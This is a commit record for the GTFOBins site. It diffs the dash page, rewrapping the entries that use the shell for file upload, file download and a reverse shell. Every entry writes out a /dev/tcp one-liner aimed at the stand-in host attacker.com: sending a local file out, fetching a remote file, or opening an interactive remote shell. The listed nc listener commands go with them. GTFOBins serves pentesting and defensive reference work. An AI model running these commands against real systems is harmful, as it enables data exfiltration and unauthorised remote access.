

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/dash.md, in a window 1280 px wide. Shown: the whole page at 84% size, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Wrap dash commands

```diff
--- a/_gtfobins/dash.md
+++ b/_gtfobins/dash.md
@@ -9,33 +9,33 @@ functions:
   upload:
     - description: Send local file in the body of an HTTP POST request. Run an HTTP service on the attacker box to collect the file.
       code: |
-        RHOST=attacker.com
-        RPORT=12345
-        LFILE=file_to_send
-        echo -e "POST / HTTP/0.9\n\n$(cat $LFILE)" > /dev/tcp/$RHOST/$RPORT
+        export RHOST=attacker.com
+        export RPORT=12345
+        export LFILE=file_to_send
+        dash -c 'echo -e "POST / HTTP/0.9\n\n$(cat $LFILE)" > /dev/tcp/$RHOST/$RPORT'
     - description: Send local file using a TCP connection. Run `nc -l -p 12345 > "where_to_save"` on the attacker box to collect the file.
       code: |
-        RHOST=attacker.com
-        RPORT=12345
-        LFILE=file_to_send
-        cat $LFILE > /dev/tcp/$RHOST/$RPORT
+        export RHOST=attacker.com
+        export RPORT=12345
+        export LFILE=file_to_send
+        dash -c 'cat $LFILE > /dev/tcp/$RHOST/$RPORT'
   download:
     - description: Fetch a remote file via HTTP GET request.
       code: |
-        RHOST=attacker.com
-        RPORT=12345
-        LFILE=file_to_get
-        (echo -e "GET /$LFILE HTTP/0.9\r\n\r\n" 1>&3 & cat 0<&3) 3<>/dev/tcp/$RHOST/$RPORT | (read i; while [ "$(echo $i | tr -d '\r')" != "" ]; do read i; done; cat) > $LFILE
+        export RHOST=attacker.com
+        export RPORT=12345
+        export LFILE=file_to_get
+        dash -c '(echo -e "GET /$LFILE HTTP/0.9\r\n\r\n" 1>&3 & cat 0<&3) 3<>/dev/tcp/$RHOST/$RPORT | (read i; while [ "$(echo $i | tr -d \"\r\")" != "" ]; do read i; done; cat) > $LFILE'
     - description: Fetch remote file using a TCP connection. Run `nc -l -p 12345 < "file_to_send"` on the attacker box to send the file.
       code: |-
-        RHOST=attacker.com
-        RPORT=12345
-        LFILE=file_to_get
-        cat < /dev/tcp/$RHOST/$RPORT > $LFILE
+        export RHOST=attacker.com
+        export RPORT=12345
+        export LFILE=file_to_get
+        dash -c 'cat < /dev/tcp/$RHOST/$RPORT > $LFILE'
   reverse-shell:
     - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
       code: |
-        RHOST=attacker.com
-        RPORT=12345
-        dash -i >& /dev/tcp/$RHOST/$RPORT 0>&1
+        export RHOST=attacker.com
+        export RPORT=12345
+        dash -c 'dash -i >& /dev/tcp/$RHOST/$RPORT 0>&1'
 ---
```
